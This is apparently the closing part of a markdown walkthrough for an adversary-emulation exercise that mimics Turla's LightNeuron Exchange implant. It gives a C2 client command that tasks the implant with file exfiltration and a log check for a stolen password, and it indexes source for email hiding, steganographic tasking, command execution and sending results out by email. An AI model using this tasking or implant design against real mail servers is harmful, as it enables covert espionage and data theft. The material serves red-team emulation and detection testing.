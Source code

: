```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:

```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

### :moyai: Source Code

* [Transport Agent](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs)
  * [Remote Email Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L56)
  * [Automated Collection](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L100)
  * [Email Hiding Rules](../../Resources/LightNeuron/TransportAgent/Microsoft.Exchange.Transport.Agent.ConnectionFiltering/ConnectionFilteringAgent.cs#L162)
* [Companion DLL](../../Resources/LightNeuron/CompanionDLL/)
  * [Check message against rule file](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L307)
  * [Data Staging/Automated Collection](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L196)
  * [Analyze attachment for data from C2](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L98)
  * [Send message back to C2 server over email](../../Resources/LightNeuron/CompanionDLL/src/exdbdata.cpp#L130)
* [Steganography](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp)
  * [Decode attachment data from base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L437)
  * [Check signature in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L136)
  * [Decrypt data in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L99)
  * [Extract task from image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L302)
  * [Execute commands: Cmd ID 3](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L232)
  * [Execute commands: Cmd ID 5](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L263)
  * [Encrypt result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L51)
  * [Hide result of command in image](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L184)
  * [Encode data in base64](../../Resources/LightNeuron/CompanionDLL/src/stego.cpp#L499)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/wp-content/uploads/2019/05/ESET-LightNeuron.pdf>
